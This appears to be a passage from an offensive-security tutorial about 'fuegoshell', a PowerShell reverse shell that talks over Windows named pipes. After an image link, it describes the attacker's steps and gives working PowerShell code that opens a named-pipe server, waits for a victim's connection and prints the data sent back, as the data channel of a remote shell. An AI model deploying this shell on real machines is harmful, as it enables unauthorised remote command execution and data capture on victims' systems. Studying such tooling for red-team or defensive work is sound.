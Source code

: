 [![fuegoshell_rev](/assets/uploads/2024/02/fuegoshell_rev.png)](/assets/uploads/2024/02/fuegoshell_rev.png)

What steps need to be taken ?  

### **On the attacker side : create both communication channels**
We will :  

- open a named pipes listening for incoming connections from the victim 
- send command to execute and display the result sent by the victim 

Because we create two channels we will avoid confusion separating consoles.  
In the powershell console 1 run :  

```
$host.ui.RawUI.WindowTitle = "DATA-CHANNEL";
$pipedata = new-object System.IO.Pipes.NamedPipeServerStream 'fuego-data','In'; 
$pipedata.WaitForConnection();
$sr= new-object System.IO.StreamReader $pipedata;
while (($data = $sr.ReadLine()) -ne $null) {
     echo $data.ToString()
};
$sr.Dispose();
$pipedata.Dispose();
```
